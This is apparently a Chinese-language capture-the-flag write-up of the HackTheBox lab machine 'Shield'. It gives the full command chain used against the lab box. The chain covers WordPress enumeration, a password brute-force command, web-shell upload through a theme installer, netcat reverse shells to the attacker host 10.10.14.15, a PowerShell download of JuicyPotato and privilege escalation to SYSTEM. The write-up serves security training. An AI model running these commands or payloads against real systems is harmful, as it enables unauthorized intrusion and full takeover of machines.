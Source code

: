 # Shield
###### tags: `HTB_Starting Point`
1. Enumeration
* 老樣子，先用Ping測試一下，連線是否正常
```
ping -c 2 10.10.10.29
```

* 先進行Port scan，這次我們選用不同的參數(-A)，並儲存結果。
-A: Enable OS detection, version detection, script scanning, and traceroute
```
sudo nmap -A -oA /nmap/Shield 10.10.10.29
```
![](https://i.imgur.com/s4gqq1H.png)

* Discover on 80 Port 

![](https://i.imgur.com/8IpyIdg.png)

* 嘗試一下看有沒有robots.txt or login介面(X) 似乎都沒有

![](https://i.imgur.com/jHKuTj8.png)
* 那就一樣使用dirsearch，看有沒有隱藏的目錄
```
sudo python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.29 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```
![](https://i.imgur.com/XRFn3hB.png)

* 由上圖結果，我們可以去看一下wordpress目錄(不過似乎也沒什麼特別的地方)

![](https://i.imgur.com/gtEJkKK.png)
* 由於是Wordpress，可以使用wpscan來掃描看看
```
wpscan --url http://10.10.10.29/wordpress --enumerate vp,vt,u,dbe -t 10
```
![](https://i.imgur.com/y1x0IFd.png)

* -e, --enumerate [OPTS] 
	* vp   Vulnerable plugins
	* vt   Vulnerable themes
	* dbe  Db exports
	* u    User IDs range. e.g: u1-5 (Value if no argument supplied: 1-10)
* -t, --max-threads VALUE
	* The max threads to use(Default: 5)
* 可以發現user id 只有admin一個，並且找到一個登入介面http://10.10.10.29/wordpress/wp-login.php

![](https://i.imgur.com/7qgYGo8.png)
![](https://i.imgur.com/fGTzAVa.png)

* 現在只缺admin密碼了，WPscan的確有爆破的工具，不過...
```
wpscan --url http://10.10.10.29/wordpress --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```
* -P, --passwords FILE-PATH 
	* List of passwords to use during the password attack.(If no --username/s option supplied, user enumeration will be run.)
* -U, 
	* --usernames LIST：List of usernames to use during the password attack.
	* --multicall-max-passwords MAX_PWD：Maximum number of passwords to send by request with XMLRPC multicall(Default: 500)
	* --password-attack ATTACK：Force the supplied attack to be used rather than automatically determining one.Available choices: wp-login, xmlrpc, xmlrpc-multicall
	* --login-uri URI：The URI of the login page if different from /wp-login.php
	* --stealthy：lias for --random-user-agent --detection-mode passive --plugins-version-detection passive

![](https://i.imgur.com/pAhSVmZ.png)
![](https://i.imgur.com/9qVVeFn.png)
* 其實還挺花時間的，所以我們嘗試看看上一台主機中獲得帳號資訊!
admin : P@s5w0rd!

![](https://i.imgur.com/1mRbKxX.png)

成功登入後，會進到一個DashBorad介面!
2. Foothold(立足點)
* 現在只要找到上傳功能的選項，上傳反向shell。(請注意：由於是Windows計算機。因此，必須具有Windows php反向shell才能獲得訪問權限。)

* 先創建一個資料夾
```
mkdir windows_reverse
```
* 從Github上clone我們所需要的檔案及工具
```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/php/simple-backdoor.php
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe
```
![](https://i.imgur.com/wPF0Eu4.png)

* 我們找到一個可以上傳的功能
```
Appearance -> Themes -> Add New -> upload Theme -> Browse 
```
![](https://i.imgur.com/PM20wfY.png)

* 點擊Install Now上傳後會跳出下面的畫面

![](https://i.imgur.com/6MLm0gJ.png)

* Google一下wordpress uploads預設的存放位置(http://10.10.10.29/wordpress/wp-content/uploads)

![](https://i.imgur.com/i4UUcoK.png)

* 現在我們有了一個簡單的綁定外殼。讓我們在netcat二進製文件的幫助下使用反向外殼。
```
http://10.10.10.29/wordpress/wp-content/uploads/simple-backdoor.php?cmd=dir
```
![](https://i.imgur.com/rIGPCJj.png)
* 執行nc.exe
```
http://10.10.10.29/Wordpress/wp-content/Uploads/simple-backdoor.php?cmd=.\nc.exe%20-e%20cmd.exe%2010.10.14.15%204444
```
![](https://i.imgur.com/B2Yw4NQ.png)
![](https://i.imgur.com/znWBs1s.png)
```
cd C:\Users
dir
cd sandra
```
3. Privilege Escalation(提權)
* 我們需要進一步枚舉來獲得任何獲得特權訪問權限的漏洞。首先，我們需要檢查系統信息。
```
systeminfo
```
![](https://i.imgur.com/UWsF3rB.png)

* 查看我們擁有那些權限
```
whoami /priv
```
![](https://i.imgur.com/UofDIVs.png)

* 我們有啟用SeImpersonatePrivilegeenabled的權限，這代表我們可以執行[juicy potato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)來提權。
* 從Github上下載JuicyPotato.exe
```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
![](https://i.imgur.com/yFGBwUv.png)

* 後將其重命名為另一個文件名。因為有時Windows Defender會檔掉
```
mv JuicyPotato.exe potato.exe
```
![](https://i.imgur.com/T9OKPzB.png)
* 在本機端上啟動python demon web服務器，用來上傳JuicyPotato
```
python3 -m http.server
```
![](https://i.imgur.com/NOweWR8.png)

* 在Windows主機端輸入下列指令，讓它去下載我們Web Server上的JuicyPotato檔案
```
Powershell -c "IWR -useBasicParsing http://10.10.14.15:8000/potato.exe -o potato.exe"
```
![](https://i.imgur.com/zgNbbUf.png)
![](https://i.imgur.com/lR2TC3k.png)
* 閱讀Juicy Potato的文檔，有提到需要運行Batch文件。因此，現在需要使用以下指令創建bat文件
```
echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.15 4545 > sh3ll.bat
```
* 使用type命令查看該文件以進行驗證
```
type sh3ll.bat
```
![](https://i.imgur.com/nl1w4QF.png)
* 再次打開netcat
```
nc -lvnp 4545
```
![](https://i.imgur.com/37UWvvQ.png)

* 執行以下命令。如果無法獲得反向外殼；更改使用此文檔的-c參數（CLSID）並再次運行。
```
.\potato.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -p C:\inetpub\wwwroot\wordpress\wp-content\Uploads\sh3ll.bat -l 1337
```
![](https://i.imgur.com/t9BbE1X.png)

* 最終我們取得了權限，就剩下Get Flag了!

![](https://i.imgur.com/KobeFsM.png)

```
type ../../Users/Administrator/Desktop/root.txt
```
![](https://i.imgur.com/kA0MJ8T.png)


